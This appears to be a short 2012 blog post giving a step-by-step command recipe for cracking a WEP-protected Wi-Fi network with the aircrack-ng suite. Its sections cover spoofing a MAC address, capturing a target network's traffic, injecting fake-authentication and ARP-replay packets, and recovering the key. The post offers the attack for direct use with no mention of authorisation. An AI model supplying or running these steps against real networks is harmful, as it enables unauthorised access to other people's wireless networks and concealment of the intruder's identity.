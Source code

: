 ```yaml
---
layout: post
title: simple aircrack WEP
date: 2012-08-29 12:32
author: admin
comments: true
categories: [how to, networking, ubuntu, ubuntu]
---
```

<strong>SETUP</strong>
<pre>airmon-ng airmon-ng stop (interface) ifconfig (interface) down macchanger --mac 00:11:22:33:44:55 (interface) airmon-ng start (interface) </pre>

<strong>PICK NET &amp; CAPTURE</strong>
<pre>airodump-ng (interface) airodump-ng -c (channel) -w (file name) --bssid (bssid) (interface)</pre>

<strong>GET MORE PACKET</strong>
<pre>aireplay-ng -1 0 -a (bssid) -h 00:11:22:33:44:55 -e (essid) (interface) aireplay-ng -3 -b (bssid) -h 00:11:22:33:44:55 (interface)</pre>

<strong>CRACK A LACKIN'</strong>
<pre>aircrack-ng -b (bssid) (file name-01.cap)</pre>


cheers.

